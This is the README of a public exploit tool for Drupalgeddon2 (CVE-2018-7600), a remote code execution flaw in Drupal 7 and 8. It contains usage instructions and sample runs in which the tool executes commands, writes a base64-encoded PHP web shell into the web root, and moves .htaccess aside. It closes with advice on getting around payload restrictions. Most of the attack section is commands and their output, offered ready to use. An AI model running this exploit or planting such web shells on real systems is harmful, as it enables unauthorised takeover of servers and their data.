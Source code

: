 # CVE-2018-7600 | Drupal 8.5.x < 8.5.1 / 8.4.x < 8.4.6 / 8.x < 8.3.9 / 7.x? < 7.58 / < 6.x? - 'Drupalgeddon2' RCE (SA-CORE-2018-002)

[Drupalggedon2 ~ https://github.com/dreadlocked/Drupalgeddon2/](https://github.com/dreadlocked/Drupalgeddon2/) _([https://www.drupal.org/sa-core-2018-002](https://www.drupal.org/sa-core-2018-002))_

Supports:
- Drupal **< 8.3.9** / **< 8.4.6** / **< 8.5.1** ~ `user/register` URL, attacking `account/mail` & `#post_render` parameter, using PHP's `passthru` function
- Drupal **< 7.58** ~ `user/password` URL, attacking `triggering_element_name` form & `#post_render` parameter, using PHP's `passthru` function
- Works with **direct commands** (aka File-Less Method) or writes a **PHP shell** to the web root (`./`) or sub-directories (`./sites/default/` & `./sites/default/files/`)
- Support **Linux** & **Windows** targets
- **Auto detects Drupal version** _(or takes a good guess!)_

The `user/register` method was chosen for Drupal v8.x, as it will return `HTTP 200`, and render the output in the `data` JSON response _(un-comment the code for `timezone`/`#lazy_builder` method, which will return `HTTP 500` & blind!)_ _([More Information](https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708))_


Notes:
- For advance users/setups there is a more customizable exploit. See the `drupalgeddon2-customizable-beta.rb` section
- Before opening an issue, please, read the troubleshooting section at the end. Thanks!


- - -


## Usage:

```bash
$ ruby drupalgeddon2.rb
Usage: ruby drupalggedon2.rb <target>
       ruby drupalgeddon2.rb https://example.com
$
```


### Drupal v8.x Example

_Drupal v8.x < v8.3.9 / v8.4.x < v8.4.6 / v8.5.x < v8.5.1_

```bash
$ ./drupalgeddon2.rb http://localhost/drupal-8/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://localhost/drupal-8/
--------------------------------------------------------------------------------
[!] MISSING: http://localhost/drupal-8/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://localhost/drupal-8/core/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal?: v8.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[i] Payload: echo TTTBJJBP
[+] Result : TTTBJJBP
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Writing To Web Root (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake shell:   curl 'http://localhost/drupal-8/s.php' -d 'c=hostname'
ubuntu140045x64-drupal>> uname -a
Linux ubuntu140045x64-drupal 3.13.0-144-generic #193-Ubuntu SMP Thu Mar 15 17:03:53 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
ubuntu140045x64-drupal>>
```


### Drupal v7.x Example

_Drupal < v7.58_

```bash
$ ./drupalgeddon2.rb http://localhost/drupal-7/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://localhost/drupal-7/
--------------------------------------------------------------------------------
[+] Found  : http://localhost/drupal-7/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.31
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[i] Payload: echo TKYPVVJJ
[+] Result : TKYPVVJJ
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Writing To Web Root (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake shell:   curl 'http://localhost/drupal-7/s.php' -d 'c=hostname'

ubuntu140045x64-drupal>> uptime
 14:52:33 up 4 days,  3:35,  1 user,  load average: 0.00, 0.01, 0.05
ubuntu140045x64-drupal>>
```


#### Direct Commands / Non PHP Shell (aka File-Less Method)

If either you do not want to even try and write a PHP web shell to the web server, edit the file as shown _(it will fall back if it can't find a writeable location anyway)_:

```ruby
try_phpshelltryphpshell = false
```

**Example**

```bash
$ ./drupalgeddon2.rb http://localhost/drupal-nonwrite/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://localhost/drupal-nonwrite/
--------------------------------------------------------------------------------
[!] MISSING: http://localhost/drupal-nonwrite/CHANGELOG.txt    (HTTP Response: 404)
[+] Found  : http://localhost/drupal-nonwrite/core/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal?: v8.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[i] Payload: echo HYCBAIET
[+] Result : HYCBAIET
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Writing To Web Root (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[!] Target is NOT exploitable for some reason [2] (HTTP Response: 404)...    Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root (sites/default/)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[!] Target is NOT exploitable for some reason [2] (HTTP Response: 404)...    Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root (sites/default/files/)
[*] Moving : ./sites/default/files/.htaccess
[i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[!] Target is NOT exploitable for some reason [1] (HTTP Response: 403)...    May not be able to execute PHP from here?
[!] FAILED: Couldn't find writeable web path
--------------------------------------------------------------------------------
[*] Dropping back to direct commands
drupalgeddon2>> lsb_release -a
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.5 LTS
Release:	14.04
Codename:	trusty
drupalgeddon2>>
```


#### Proxy Support

For proxy support _(e.g. Burp)_, edit the file, replacing with your values. Example:

```ruby
proxy_addr = "192.168.0.130"
proxy_port = 8080
```


- - -


#### Experimental but usable: drupalgeddon2-customizable-beta.rb

`drupalgeddon2-customizable-beta.rb` is intended for more advance users as its more customizable. It allows you to specify some more parameters as the PHP method to use (not only `system()` or `passthru()`) and the way to reach user/password form.

Usage examples:

```
$ ruby drupalgeddon2-customizable-beta.rb https://example.com 7 id passthru 0

1st parameter: Target URL
2nd parameter: Drupal version (e.g. 7 or 8)
3rd parameter: Command
4th parameter: PHP method to use (e.g. passthru, exec, system, assert...)
5th parameter: 0 for "/?q=user/password", 1 for "/user/password"
```


- - -


## Troubleshooting:

- The target may redirect to another path, where Drupal exists (such as `HTTP 30x` responses)
    - Solution: Make sure you are using the correct Drupal path

- There is a limitations of a allowed characters that are able to be used in the payload/command
    - Solution: This is due to how the vulnerability sees them and them being encoded for the URL request. Encode the payload, decode it on the target. Such as base64

- If the target is Linux, and isn't using "GNU base64", it may be the BSD version _(or its not installed all together!)_
    - Solution: which to `base64 -D` (rather than `base64 -d`) or use the file-less method

- If the target using Windows, writing the PHP shell always fails
    - Solution: Use file-less method. This is because gets pipe to a unix program, rather than using `certutil` or `PowerShell`

- Drupal v8.x - `./.htaccess` will stop any PHP scripts from executing in `./sites/default/` if that is the writeable folder
    - Solution: Switch to the file-less method

- Drupal v8.x - "clean URL" isn't enabled on the target
    - Solution: N/A - Not vulnerable =(

- Drupal v7.x - If the `/user/password` form is disabled, you meed find another form _(remember to change the exploit!)_
    - Solution: `form_id` parameter will change depending on the form used to exploit the vulnerability


- - -


## Links:

- Drupal SA-CORE-2018-002 Advisory ~ https://www.drupal.org/sa-core-2018-002
- CVE ~ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7600
- Write up & Research ~ https://research.checkpoint.com/uncovering-drupalgeddon-2/
- cURL commands/sample PoC ~ https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708
